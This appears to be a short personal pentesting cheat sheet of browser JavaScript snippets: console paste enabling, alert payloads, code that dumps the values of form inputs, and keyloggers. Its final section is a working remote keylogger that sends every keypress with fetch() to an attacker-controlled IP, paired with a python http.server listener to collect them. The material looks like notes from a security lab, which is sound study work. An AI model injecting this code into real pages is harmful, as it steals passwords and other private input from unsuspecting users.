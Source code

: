 # Javascript References

##### Web Console, Enable Pasting
```
allow pasting
```

### Alerts
```
alert("[TEXT]")
```

### View Input Field Data (local attack)

```JS
### From the webconsole in firefox with data already in the field
let inputs = document.getElementsByTagName("input")

### With data in the fields
for (let input of inputs){
	console.log(input.value)
}

### Show all user input fields (troubleshooting)
for (let input of inputs){
	console.log(input)
}
```

### Keylog Individual Keypresses (local attack)
- doesn't seem to work inside input fields
```
function logKey(event){
	console.log(event.key)
}

document.addEventListener('keypress', logKey);
```

### Keylog Individual Keypresses (Remote Attack)
```
python3 -m http.server 80
```
```
function logKey(event){
	fetch(
		"http://192.168.49.205/k?key=" + event.key);
}

document.addEventListener('keydown', logKey);
```
![[Pasted image 20221005153529.png]]

